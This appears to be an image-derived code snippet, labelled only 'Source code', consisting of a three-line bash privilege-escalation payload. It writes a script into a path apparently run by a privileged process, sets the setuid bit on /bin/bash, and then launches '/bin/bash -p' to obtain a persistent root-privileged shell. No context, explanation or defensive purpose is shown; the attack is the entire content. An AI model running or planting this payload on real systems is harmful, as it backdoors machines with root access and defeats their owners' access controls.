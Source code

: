 

```bash
echo -e '#!/bin/bash\n\nchmod u+s /bin/bash' > /path/bin
chmod +x /path/bin
/bin/bash -p
```


